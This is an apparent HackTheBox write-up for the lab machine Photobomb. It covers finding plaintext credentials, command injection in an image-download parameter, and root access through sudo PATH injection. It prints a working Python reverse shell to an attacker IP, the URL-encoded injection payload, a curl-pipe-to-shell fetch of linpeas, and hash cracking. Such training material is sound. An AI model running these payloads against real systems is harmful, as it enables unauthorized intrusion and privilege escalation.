 ```yaml
---
render_with_liquid: false
title: HackTheBox Writeup  Photobomb
date: 2022-12-25 09:15 +1400
tags: [hackthebox, linux, nmap, burpsuite, information-disclosure, clear-text-credentials, command-injection, sudo, bash-script, path-injection]
---
```




Photobomb is an easy Linux machine where plaintext credentials are used to access an internal web application with a `Download` functionality that is vulnerable to a blind command injection. Once a foothold as the machine's main user is established, a poorly configured shell script that references binaries without their full paths is leveraged to obtain escalated privileges, as it can be ran with `sudo`.


# Recon


## Nmap

```bash
┌──(root㉿kali)-[~/photobomb]
└─# nmap -sV -sC -p- -Pn -T4 -oA Photobomb 10.10.11.182    
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 09:15 EST
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.10% done; ETC: 09:16 (0:00:38 remaining)
Nmap scan report for 10.10.11.182
Host is up (0.19s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.16 seconds
```


# User Flag

The web index page will guide to `/printer` login page

![](/assets/obsidian/5f58e104b9ada5b4bffccd850297400e.png)

Take a look at burp history

We can see that a cookie authorization code was written in front end

![](/assets/obsidian/3b985e4a9821dfe877429c5fdd40028a.png)

- Get creds: `http://pH0t0:b0Mb!@photobomb.htb/printer`

There's only one dynamic function in this page

![](/assets/obsidian/a92e66517b22c92fb10ea8e74919dd3a.png)

Observe the request and response with burp interceptor

Test simple command injection on the parameters

![](/assets/obsidian/85003e565efa29165ffcd3ff9d98d973.png)

First listen for ICMP packets on tun0

```bash
┌──(root㉿kali)-[~]
└─# tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
```

Found ping command injectable in `filetype
`
```java
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ping+10.10.14.38+-c+1&dimensions=600x400
```

```bash
┌──(root㉿kali)-[~]
└─# tcpdump icmp -i tun0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
09:42:15.118399 IP photobomb.htb > 10.10.14.38: ICMP echo request, id 4, seq 1, length 64
09:42:15.118453 IP 10.10.14.38 > photobomb.htb: ICMP echo reply, id 4, seq 1, length 64
```

Send reverse shell

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.38",1111));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Press `CTRL + U` in burp to quickly url encode

```java
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.38",1111))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("/bin/bash")'&dimensions=3000x2000
```

- Get user flag : `4956cbb999f5593b3e7e4884690ea02b`

```bash
┌──(root㉿kali)-[~]
└─# pwncat-cs
[09:51:23] Welcome to pwncat 🐈!                                                                                __main__.py:164
(local) pwncat$ listen 1111 -m linux
[09:51:31] new listener created for 0.0.0.0:1111                                                                 manager.py:957
[10:00:42] 10.10.11.182:36252: registered new host w/ db                                                         manager.py:957
           listener: 0.0.0.0:1111: linux session from 10.10.11.182:36252 established                             manager.py:957
(local) pwncat$                                                                                                                
(remote) wizard@photobomb:/home/wizard/photobomb$ cd ~
(remote) wizard@photobomb:/home/wizard$ ls
find  photobomb  shell.jpg  user.txt  wget-log
(remote) wizard@photobomb:/home/wizard$ cat user.txt 
4956cbb999f5593b3e7e4884690ea02b
(remote) wizard@photobomb:/home/wizard$ 
```


# Root Flag

Check sudo

```bash
(remote) wizard@photobomb:/home/wizard$ sudo -l -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:

Sudoers entry:
    RunAsUsers: root
    Options: setenv, !authenticate
    Commands:
        /opt/cleanup.sh
```

Take a look at the script

```bash
(remote) wizard@photobomb:/home/wizard/photobomb$ cat /opt/cleanup.sh 

#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb


# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi


# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

No privilage to edit the script

```bash
(remote) wizard@photobomb:/home/wizard/photobomb$ ls -la /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh
```

Noticed that `truncate` and `/bin/cat` have been set to use from direct directory,
But `find` does not, which means we can set it with `setenv` option in `sudo`.

```bash
echo "/bin/bash -i" >> /tmp/find
sudo PATH=/tmp:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# cat ~root/root.txt 
6e260e1f2effa3e0d992bde35f6040ef
```

- Get ROOT flag: `6e260e1f2effa3e0d992bde35f6040ef`

![](/assets/obsidian/74df539dd5d1c6a5679d8e5c87c5cabd.png)


## Additional


### Get root by another way

https://youtu.be/-4asq6Tldf0?t=960


### Etc

Interesting linpeas result:

```bash
curl 10.10.14.38/linpeas.sh | sh
```

![](/assets/obsidian/43c55eda4ab106c271644929766f0eb9.png)

```bash
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-rw-r-- 1 wizard wizard 44 Sep 14 09:29 /home/wizard/photobomb/.htpasswd                                                                                                   
pH0t0:$apr1$dnyF00ZD$9PifZwUxL/J0BCS/wTShU1
```

Crack the hash for fun

```bash
john --wordlist=~/rockyou.txt htpasswd.txt
```
